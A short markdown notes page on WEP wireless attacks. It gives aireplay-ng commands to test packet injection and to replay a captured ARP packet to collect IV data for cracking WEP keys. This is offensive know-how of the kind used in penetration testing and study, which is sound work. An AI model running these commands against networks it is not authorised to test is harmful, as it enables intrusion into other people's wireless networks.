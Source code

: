 # WEP Attacks

## Other notes

### Injection Test

Output will show if all the tests passed and that current adapter can be used for injection \(for use with WEP attacks\)

```bash
aireplay-ng -9 -i wlan1 mon0
```

### Re-using captured ARP replay packets

Reusing the captured ARP packet to get IV data. The file name 'replay\_src-xxx.xxxx.cap' can be re-used. Type 'y' when prompted to use the packet and start seeing the count under 'data' in your airmon-ng monitor screen grow rapidly as IV data are being collected.

```bash
aireplay-ng -2 -r replay_src-0129-223530.cap wlan0mon

```





